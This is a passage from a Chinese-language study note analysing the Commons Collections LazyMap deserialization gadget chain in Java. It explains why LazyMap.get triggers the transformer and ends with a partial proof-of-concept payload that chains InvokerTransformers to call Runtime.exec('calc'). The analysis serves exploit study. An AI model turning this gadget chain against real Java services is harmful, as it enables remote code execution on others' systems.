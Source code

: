 
![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747599448-287c5023-c1e9-4dd6-a4b7-c1cc511babbf.png)



此时 map 是一个 HashMap，HashMap.containsKey 方法用于判断 map 中是否存在指定的 key 对应的映射关系。此前构造的 hashMap 没有赋值，所以自然不存在 entrySet 这个 key，因此进一步调用 factory.transform 方法，这里的 factory 是我们构造的 chainedTransformer，继而可以触发后面的利用链。



运行效果如下：



会抛出异常，也会执行命令。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747603576-80c56d27-d4c8-47eb-8ace-6e4831c2ad13.png)



一个没有解决的问题是：调试的时候怎么也无法跟进到执行命令，IDEA 会忽略断点。这一点很迷。



最终只能通过如下的方式简单测试：



直接在 hashMap 中加入一个 key 为 "entrySet" 的键值对。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747610391-adf03f71-9946-4a0a-a631-f5c90f17a58a.png )



此时自然就过不了 LazyMap.get 中的那个 if 了。运行后仅抛出异常，但不会执行命令。



最终 payload 如下：



```java
    public static void TestLazyMap() throws Exception{
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(
                                Runtime.class
                        ),
                        new InvokerTransformer(
                                "getMethod",
                                new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}
                        ),
                        new InvokerTransformer(
                                "invoke",
                                new Class[]{Object.class,Object[].class},
                                new Object[]{null,null}
                        ),
                        new InvokerTransformer(
                                "exec",
                                new Class[]{String.class},
                                new Object[]{"calc"}
                        )
                });

        HashMap<String,String> map = new HashMap<>();
        map.put("entrySet1","aaa");
        
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(map,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class,Map.class);
```